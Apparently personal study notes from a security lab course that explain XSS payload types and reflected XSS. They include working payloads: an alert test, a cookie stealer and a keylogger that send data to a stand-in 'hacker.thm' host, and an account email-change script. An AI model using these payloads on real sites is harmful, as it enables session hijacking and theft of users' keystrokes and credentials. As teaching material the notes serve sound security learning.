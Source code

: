 
In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

**Examples**

- **Proof Of Concept:**
	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
	
	`<script>alert('XSS');</script>`

- **Session Stealing:**
	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
	
	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

- **Key Logger:**
	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
	
	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- **Business Logic:**
	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
	
	`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS  

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- **Example Scenario:**  
A website where if you enter incorrect input, an **error** message is displayed. The content of the **error** message gets taken from the **error** **parameter** in the query string and is built directly into the page source.
![[Pasted image 20240605235939.png]]

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![[Pasted image 20240606000022.png]]

**Flow:**
![[Pasted image 20240606000041.png]]

- **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
